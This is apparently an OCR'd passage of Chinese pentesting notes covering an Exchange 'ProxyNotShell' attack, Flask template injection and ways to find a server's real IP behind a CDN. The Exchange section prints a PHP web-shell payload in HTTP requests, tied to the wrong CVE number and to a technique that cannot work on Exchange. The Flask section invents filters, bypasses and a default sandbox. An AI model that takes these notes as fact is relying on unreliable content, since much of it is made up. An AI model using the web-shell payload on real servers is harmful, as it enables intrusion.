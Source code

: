 ### 26. ProxyNotShell
CVE-2021-27065
修补ProxyLogon漏洞的更新中,微软仅过滤了HTTP代理头中的 certain 字段,未过滤Proxy 字段。攻击者可以构造恶意的 Proxy 头,在修补过的 Exchange 服务器上触发远程代码执行。
2. 构造恶意的Proxy头。一个例子如下:
```http
Proxy: <?php $cmd=$_GET["cmd"]; system($cmd); ?> 
```
3. 发送包含恶意Proxy头的HTTP请求到Exchange服务器。例如:
```http
GET /ews/exchange.asmx HTTP/1.1
Host: target
Proxy: <?php $cmd=$_GET["cmd"]; system($cmd); ?>
```
4. 在同一个请求中添加cmd参数执行系统命令,例如:
```http
GET /ews/exchange.asmx?cmd=whoami HTTP/1.1
Host: target
Proxy: <?php $cmd=$_GET["cmd"]; system($cmd); ?>
```
5. 如果命令输出出现在HTTP响应中,则证明远程代码执行成功。此时攻击者可以执行更多命令来增加权限、植入后门等。

### 27. python的flask模版注入
是SSTI注入的一种，Jinja2模版、Django模版语言；Jinja2是Flask和Django默认的模版引擎
Flask中的模版注入漏洞可以允许攻击者在渲染模版(HTML文件)时执行恶意代码。
1. 变量渲染:在Flask模版中使用未过滤的用户输入作为变量名或者属性名,可以导致代码执行。例如:
```html
<h1>Hello {{name}}</h1>
如果用户输入的name为`__class__`,会导致代码执行。
```

2. 过滤器绕过:Flask提供了名称为`|`(管道符)的过滤器,用于过滤和转换数据。如果过滤器可以被绕过,同样会导致代码执行。例如:
```html
<h1>Hello {{ name | set_trace }} </h1>
如果用户输入的name为`__debugger__`,可以绕过set_trace过滤器执行代码。
```
3. 沙盒绕过:Flask默认启用全局沙盒(沙箱),防止模板渲染过程中执行危险代码。但是,一些方法如`__subclasses__()`和`__mro__`可以用来绕过全局沙盒。
4. Context变量覆盖:Flask提供了contex变量,如g、request等,如果用户可控输入覆盖其中context变量,同样会导致远程代码执行。
5. 自定义过滤器:自定义的过滤器如果没有正确进行输入过滤,也可能导致模版注入漏洞。
总的来说,Flask模版注入的防护主要依靠:
1) 正确过滤用户输入,特别是变量名、属性名和方法名。
2) 不在模版中使用沙盒方法如`__subclasses__()`。
3) 自定义过滤器和函数要正确进行输入过滤。
4) 使用context处理器来防止context变量被覆盖。
5) 开启Flask的沙盒保护。
### 真实IP查找方法
> 1、多地ping
> 2、泄露文件
> 3、信息收集
> 4、漏洞利用
> 5、SSL 证书
> 6、DNS解析
> 7、被动获取
> 8、流量攻击
> 9、全网扫描
> 10、长期关注
> 11、对比banner
> 12、利用老域名
> 13、favicon_hash 匹配
> 14、CloudFlare Bypass
> 15、配置不当导致绕过
> 16、APP
> 17、社工 CDN 平台
> 18、F5 LTM解码法